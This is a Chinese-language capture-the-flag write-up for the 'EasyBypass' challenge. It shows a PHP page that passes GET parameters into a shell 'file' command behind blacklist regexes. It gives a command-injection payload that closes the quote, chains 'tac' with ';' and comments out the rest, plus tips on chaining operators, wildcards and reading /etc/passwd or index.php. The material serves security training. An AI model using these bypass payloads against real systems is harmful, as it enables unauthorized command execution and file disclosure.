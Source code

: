 ```yaml
---
layout: editorial
---
```


# EasyBypass

## EasyBypass

## 考点

* 命令执行拼接与绕过

## wp

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];

if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

要传入两个参数comm1和comm2，并且对它们两个有不同的限制，对比一下限制有何不同

两者都有的

```
' ` * \ \n \t \xA0 \r { } ( ) < &[^d] @ | tail bin less more string cat sh flag find ls grep echo w
```

comm1还不能有`nl pwd` ，comm2还不能有`" ; , tac` 。这也就意味着在comm1中可以使用`;` 进行命令分割，并且使用`"` 闭合语句，使用`#` 注释多余的语句

payload: `comm1=index.php";tac index.php;%23`

```
index.php";tac index.php;%23
index.php";tac /fla?;%23
```

## 小结

1. Linux命令拼接，`||` 只执行第一个，`&&` 先执行第一个再执行第二个，`|` 只执行第二个，`&` 先执行第一个再执行第二个
2. Linux命令`#` 用于单行注释
3. 读文件时善用通配符`.?*`
4. 读不了/etc/passwd就读index.php或者/etc/hosts
5. 在命令拼接时要考虑使用`;` 分割
